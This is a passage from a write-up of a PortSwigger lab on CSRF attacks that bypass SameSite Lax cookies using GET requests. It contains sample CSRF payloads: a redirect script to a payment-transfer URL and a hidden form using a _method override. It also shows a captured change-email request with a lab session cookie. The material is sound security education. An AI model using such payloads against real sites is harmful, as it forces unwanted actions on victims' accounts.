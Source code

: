 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1a9a6cf7-580e-41d3-95d4-91589742bcfc)


## Overview :

#### Bypassing SameSite Lax restrictions using GET requests

In practice, servers aren't always fussy about whether they receive a GET or POST request to a given endpoint, even those that are expecting a form submission. If they also use Lax restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a GET request from the victim's browser.

As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. The following is one of the simplest approaches to launching such an attack:

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Even if an ordinary GET request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the _method parameter in forms, which takes precedence over the normal method for routing purposes:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
Other frameworks support a variety of similar parameters. 

## Solution :

> This lab's website doesn't enforce samesite cookie mechanism, the samesite mechanism is provided by the browser. We need to bypass it.
> So use **chrome** as it has SAMESITE=Lax by default.

In the email change functionality, update the email of wiener.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8613f91f-8202-4332-8095-48d4803218e7)


Our browser sends the following POST request to this endpoint.

```http
POST /my-account/change-email HTTP/2
Host: 0a92009d0436580c8098082e002400fb.web-security-academy.net
Cookie: session=15YlHHHZEHTDkTnbetWJ9PntYjmuJR3y
Content-Length: 21
Cache-Control: max-age=0
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a92009d0436580c8098082e002400fb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a92009d0436580c8098082e002400fb.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

email=test%40test.net
```

